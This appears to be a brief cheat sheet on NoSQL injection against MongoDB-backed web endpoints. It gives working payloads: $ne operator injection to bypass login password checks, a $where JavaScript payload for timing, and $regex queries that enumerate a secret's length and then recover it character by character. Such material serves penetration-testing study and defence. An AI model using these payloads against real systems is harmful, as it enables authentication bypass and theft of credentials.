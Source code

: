 # NoSQLi
SQL engines and MongoDB are different in how they store and manage data, but under the right circumstances the query's logic can be altered.
```
SELECT * FROM users WHERE username='admin' AND password='pass';
db.collection(‘users’).find({‘username’:admin, ‘password’: pass});
```
A collection in MongoDB is somewhat analogous to a table, containing documents which often share the same structure of key value pairs.
## Tricks
### $ne
we can introduce to ```GET /user?username=lowpriv``` the payload: ```username[$ne]='none'``` to get all users whose usernames are not 'none'.
we can loosely compare types using either ```$ne```, ```$gt```, ```$lt```, for example:
```
POST /login

{
  "username":{"$eq":"administrator"},
  "password":{"$ne":1}
}
```
### $where
can be used to execute arbitrary javascript.
```
{
  "$where": "function() { sleep(5000); return true; }"
}
```
### $regex
can match values with regex
#### length enumeration
```
POST /list_items

{
  "description": {
    "$regex": ".{1}"
  }
}
```
```
"$regex": ".{2}"
"$regex": ".{3}"
```
and so on.
after length has been recovered we can fuzz the value with repeated checks:

```{"$regex": "P.{7}"}```
```{"$regex": "Pa.{6}"}```
```{"$regex": "Pas.{5}"}```
